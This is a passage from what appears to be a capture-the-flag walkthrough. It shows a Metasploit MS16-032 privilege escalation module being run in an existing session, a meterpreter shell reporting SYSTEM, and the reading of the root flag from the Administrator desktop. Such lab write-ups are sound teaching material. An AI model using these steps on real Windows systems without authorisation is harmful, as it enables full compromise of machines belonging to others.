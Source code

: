 Again, we have to set the `SESSION` parameter to the correct value. Now run it.

```console
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > run

<SNIP>

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > ls /Users/Administrator/Desktop
Listing: /Users/Administrator/Desktop
=====================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2017-03-18 07:52:56 -0400  desktop.ini
100444/r--r--r--  34    fil   2023-12-29 23:07:20 -0500  root.txt
```

We got a SYSTEM shell! Get the root flag from `C:\Users\Administrator\Desktop\root.txt`.